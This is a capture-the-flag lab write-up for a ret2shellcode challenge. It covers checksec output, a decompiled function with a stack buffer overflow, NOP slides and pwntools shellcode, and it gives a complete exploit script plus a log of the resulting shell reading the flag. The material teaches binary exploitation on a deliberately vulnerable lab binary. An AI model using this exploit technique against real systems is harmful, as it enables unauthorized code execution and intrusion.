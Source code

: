 # [__Challenge3__](#)

## Description: 

* Simple ret2shellcode example. The buffer's address is leaked, NX is disabled, we can fill the buffer with our shellcode and return there to execute the payload.

## Objective: 

* ret2shellcode.

## Flag:
* `FLAG{r3t2sh3llc0d3!}`

## Challenge:

First of all, we start with a `checksec`:  

```console
gef➤  checksec
[+] checksec for '/home/w3th4nds/github/Thesis/challenge3/challenge/challenge3'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

It looks like `challenge1`.

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ❌       | Allows code execution on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

`NX` is disabled, meaning we can execute code on the stack. Also, `canary` is disabled too, meaning we can have a possible `Buffer Overflow`.

The interface of the program looks like this:

![](assets/interface.png)

As we noticed before, there is indeed a `Buffer Overflow`, because after we entered a big amount of "A"s, the program stopped with `Segmentation fault`. This means we messed up with the addresses of the binary.

### Disassembly ⛏️

Starting from `main()`:

```c
undefined8 main(void)

{
  setup();
  vulnerable_function();
  printf("\n%s[-] You failed!\n",&DAT_00400c98);
  return 0;
}
```

There are some function calls:

* `setup()`   : Sets the appropriate buffers in order for the challenge to run.
* `banner()`  : Prints the banner.

Taking a better look at `vulnerable_function()`:

```c
void vulnerable_function(void)

{
  undefined local_48 [64];
  
  buffer_demo();
  printf("\nThe address of \'Buffer\' is: [%p]\n",local_48);
  printf("\n[*] \'NX\' is disabled, so we can execute code on the stack.");
  printf(
         "\n[*] The buffer is [%d] bytes long and \'read(0, buffer, 0x69)\' reads up to 0x69bytes.\n[*] Fill the buffer with shellcode and \'nop\' slides and overwrite the \'Returnaddress\' with the address of \'Buffer\'.\n\n> "
         ,0x40);
  read(0,local_48,0x69);
  return;
}
```

It calls `buffer_demo()` which prints the stack frame we saw at the interface. Then, it prints the address of `local_48`, which is the buffer we write to with `read(0, local_48, 0x69).

### Goal 🥅

What we know so far:
* The address of buffer we write to.
* There is a Buffer Overflow.

These two are more than enough for us to get shell on the system. Our payload should look like this:

```python
payload = shellcode + nop_slide*(len(overflow_offset) - len(shellcode)) + buf_addr
```

### Nop slides 🛷

[NOP slide](https://en.wikipedia.org/wiki/NOP_slide) is actually an instruction that does nothing, "sliding" the CPU's instruction execution flow to the final destination. It is represented with "\x90".

### Shellcode 🐚

Shellcode is actually a set of instruction. In our examples, we are going to call something like `system("/bin/sh")` or `execve("/bin/sh")`. We can find shellcodes online or create our owns. For this binary, we are going to use [pwntools shellcraft](https://docs.pwntools.com/en/stable/shellcraft.html) method: 

```python
context.arxh = "amd64"
asm(shellcraft.popad() + shellcraft.sh())
```

First we have to specify the architecture of the system and then use these two methods to `pop` all registers and create a shellcode. Then, we fill the rest of the buffer with junk and overwrite the return address with the address of the `buffer`.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge3" 

LOCAL = False

prompt = ">"

def pwn():
  # Find the overflow offset
  offset = 72
  
  # Open a local process or a remote instance
  if LOCAL:
    r   = process(fname)
  else:
    r   = remote("0.0.0.0", 1337)

  # Read buffer address
  r.recvuntil("'Buffer' is: [") # junk lines
  buf = int(r.recvuntil("]", drop=True), 16) # Do not save "]" and convert value to integer
  print("\n[*] Buffer address @ 0x{:x}\n".format(buf))

  # Craft payload
  # Fill the buffer with shellcode + nop slides until the offest value + the buffer address
  payload = asm(shellcraft.popad() + shellcraft.sh()).ljust(offset, b"\x90")  + p64(buf)
  r.sendlineafter(">",  payload)

  # Get shell
  r.interactive()

if __name__ == "__main__":
  pwn()
```

### PoC 🏁

```console
➜  challenge git:(main) ✗ python solver.py

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72

[*] Buffer address @ 0x7fff386f1d10

 $ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
FLAG{r3t2sh3llc0d3!}
```
